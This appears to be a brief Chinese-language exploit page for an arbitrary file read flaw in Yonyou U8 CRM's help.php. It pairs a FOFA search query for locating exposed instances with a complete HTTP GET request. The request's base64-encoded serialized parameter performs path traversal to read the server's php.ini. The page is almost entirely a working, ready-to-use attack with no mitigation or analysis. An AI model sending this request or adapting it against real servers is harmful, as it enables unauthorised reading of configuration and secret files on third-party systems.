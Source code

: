 # 用友crm客户关系管理help.php存在任意文件读取漏洞



## fofa

```yaml
body="用友 U8CRM"
```

## poc

```java
GET /pub/help.php?key=YTozOntpOjA7czoyNDoiLy4uLy4uLy4uL2FwYWNoZS9waHAuaW5pIjtpOjE7czoxOiIxIjtpOjI7czoxOiIyIjt9 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

```

